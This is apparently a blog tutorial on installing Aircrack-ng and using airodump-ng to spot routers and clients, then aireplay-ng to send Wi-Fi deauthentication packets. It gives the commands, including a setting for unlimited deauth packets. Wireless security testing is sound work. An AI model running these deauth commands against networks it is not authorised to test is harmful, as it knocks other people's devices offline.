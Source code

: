```yaml
---
layout: post
title: Installing and Using Aircrack-ng
excerpt: A quick guide to installation and basic usage of the Aircrack-ng suite.
---
```

###Installation
Use the following code

	sudo apt-get install libssl-dev iw
	wget http://download.aircrack-ng.org/aircrack-ng-1.2-beta1.tar.gz
	tar -xvzf aircrack-ng-1.2-beta1.tar.gz
	cd aircrack-ng-1.2-beta1/
	sudo make && sudo make install
	sudo airodump-ng-oui-update

###Usage

####Using Airodump-ng for Locating Routers and Clients
1. Set Wifi Adaptor into Monitor Mode

		sudo iw phy phy0 interface add mon0 type monitor 
		sudo iw dev wlan1 del

2. Start Airodump

		sudo airodump-ng mon0

3. Choosing Target

	Note the BSSID of the Router and Client along with the Channel

	Example:

		BSSID (Client): 00:13:49:A8:77:4F 
		BSSID (Router): A3:13:2F:43:6A:42
		Channel: 3

More Info:
[Airodump-ng](http://www.aircrack-ng.org/doku.php?id=airodump-ng)
	
####Using Aireplay-ng for Basic Deauthentication
1. Set Wifi Adaptor into Monitor Mode

		sudo iw phy phy0 interface add mon0 type monitor 
		sudo iw dev wlan1 del
2. Configure Wifi Adaptor to Specified Channel

		sudo iwconfig mon0 channel 1
		
3. Sending Deauth Packets

		sudo aireplay-ng -0 1 -a 00:14:6C:7E:40:80 -c 00:0F:B5:AE:CE:9D mon0
		
	`1` refers to number of Deauth Packets sent. `0` sends an infinite amount.
	
	`-a 00:14:6C:7E:40:80` is the MAC address of the access point.
	
	`-c 000:0F:B5:AE:CE:9D` is the MAC address of the client. Not necessary if deauthing all connected clients.
4. Setting Wifi adaptor back to managed mode

		sudo iw phy phy0 interface add wlan0 type managed
		sudo iw dev mon0 del
	
More Info:
[Aireplay-ng](http://www.aircrack-ng.org/doku.php?id=aireplay-ng)

Alternative:
[Airdrop-ng](http://www.aircrack-ng.org/doku.php?id=airdrop-ng) can also be used to send deauth packets with categorical rules allowing for more automation and usability.	

Additional Resources:
[Aircrack-ng website](http://www.aircrack-ng.org/doku.php?id=Main)